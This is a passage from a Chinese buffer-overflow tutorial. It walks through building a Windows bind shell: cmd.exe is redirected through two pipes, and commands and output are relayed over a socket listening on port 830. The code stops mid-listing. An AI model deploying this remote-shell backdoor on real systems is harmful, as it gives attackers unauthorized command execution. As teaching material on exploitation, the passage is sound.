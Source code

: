 “按照前面的分析，我们把 CMD 子进程输出句柄用管道 1 的写句柄替换，和前面一样，主进程就可以通过读管道 1 的读句柄来获得输出；另外，我们还要把 CMD 子进程的输入句柄用 2 的读句柄替换，主进程就可以通过写管道 2 的写句柄来输入命令。如图 3－19。”

![](img/Q 版缓冲区溢出教程 82593.jpg)

“这里比较麻烦，我再讲一次，其通信过程如下：”

```
(远程主机)←输入←管道 1 输出←管道 1 输入←输出(cmd.exe 子进程)
(远程主机)→输出→管道 2 输入→管道 2 输出→输入(cmd.exe 子进程) 
```

“为了得到这样的效果，我们设置 CMD 子进程启动参数‘si’为如下：”

```
si.hStdInput = hReadPipe2;
si.hStdOutput = si.hStdError = hWritePipe1; 
```

“就是替换进程的输出句柄为管道 1 的写句柄，输入句柄为管道 2 的读句柄。最后再开启 CMD 命令就可以了。”

```
CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation) 
```

“CMD 子进程启动后，就要和远程攻击机之间通信，传输用户的命令和结果。实现是先检查管道 1，即 CMD 进程是否有输出。如果有，就读出来发给远程客户机；如果没有，就接收远程客户机的命令，并写入管道 2，即传给 CMD 进程中。代码如下：”

```
//检查管道 1，即 CMD 进程是否有输出
ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              //将命令写入管道 2，即传给 CMD 进程
              ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
         } 
```

“把它们合起来，就得到程序 pipe2.cpp，如下：”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
 int main()
{
     WSADATA ws;
     SOCKET listenFD;
     char Buff[1024];
     int ret;
      //初始化 wsa
     WSAStartup(MAKEWORD(2,2),&ws);
     //建立 Socket
     listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
     //监听本机 830 端口
     struct sockaddr_in server;
     server.sin_family = AF_INET;
     server.sin_port = htons(830);
```